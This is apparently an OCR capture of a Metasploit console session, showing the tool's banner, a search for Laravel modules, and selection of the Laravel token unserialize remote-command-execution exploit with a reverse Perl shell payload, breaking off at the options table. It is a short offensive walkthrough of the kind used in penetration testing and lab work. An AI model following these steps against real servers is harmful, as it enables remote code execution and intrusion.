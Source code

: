 ```console
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       ..........................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ccccccccc.................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       .................ccccccccc
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v6.1.21-dev                          ]
+ -- --=[ 2187 exploits - 1160 auxiliary - 400 post       ]
+ -- --=[ 600 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View missing module options with show
missing


msf6 > search laravel

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/http/laravel_token_unserialize_exec  2018-08-07       excellent  Yes    PHP Laravel Framework token Unserialize Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/laravel_token_unserialize_exec

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   APP_KEY                     no        The base64 encoded APP_KEY string from the .env file
```
